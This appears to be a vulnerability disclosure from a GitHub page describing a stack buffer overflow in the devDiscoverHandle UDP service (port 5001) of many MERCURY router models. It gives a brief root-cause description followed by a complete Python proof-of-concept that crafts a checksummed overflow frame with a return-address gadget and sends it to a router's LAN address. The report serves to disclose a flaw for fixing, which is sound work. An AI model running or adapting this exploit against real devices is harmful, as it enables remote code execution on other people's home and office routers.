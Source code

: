 # MERCURY Router Vulnerability Report

MERCURY router have a stack overflow issue in `devDiscoverHandle` server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest M, D, B series, including M6G, D12A, B2, MIAP300L, D126, MCAP1200GP, MIAP300D, MWB201, D121G, MWB505, MIAP301D, B5, MIAP300P, M9G, MCAP1200GD, D12, D12B, MWB201S, MIAP303P, MW310RE, MIAP301P, D196G, MW300RE, D19, etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

This vulnerability happen when devDiscoverHandle receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![image-20210514160550480](devDiscoverHandle/image-20210514160550480.png)

## PoC

```python
import sys
import struct
import requests
from pwn import *
from time import sleep


udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'poc'.ljust(750-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

assert(len(payload2) < 0x300)

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.3.28',5001))
udp.close()
sleep(1)
print("[+] Success")

```


